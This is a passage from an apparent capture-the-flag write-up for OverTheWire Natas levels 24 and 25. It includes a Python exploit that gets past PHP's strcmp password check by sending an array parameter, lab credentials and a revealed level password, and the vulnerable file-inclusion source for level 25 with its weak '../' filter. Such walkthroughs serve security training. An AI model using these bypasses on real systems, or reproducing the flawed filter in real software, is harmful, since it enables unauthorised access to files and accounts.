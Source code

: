 Now `strcmp` comparisons are very insecure ([refer](https://www.php.net/manual/en/function.strcmp.php)). Consider the following exploit:

```python
def exploit():
    auth_username = 'natas24'
    auth_password = 'OsRmXFguozKpTZZ5X14zNO43379LZveg'
    response = requests.get('http://natas24.natas.labs.overthewire.org/?passwd[]=""', auth=HTTPBasicAuth(auth_username, auth_password))
    dissect_response(response)
```

`passwd[]=""` sets the `$_REQUEST['passwd']` to an array. We do have the PHP warning pop up but also the password :)

Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c

# Level 25

## [Path Truncation Attack](https://security.stackexchange.com/questions/17407/how-can-i-use-this-path-bypass-exploit-local-file-inclusion)

[More](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

URL: http://natas25.natas.labs.overthewire.org


The online sourcecode has two cavets:

```php
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }

    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
```
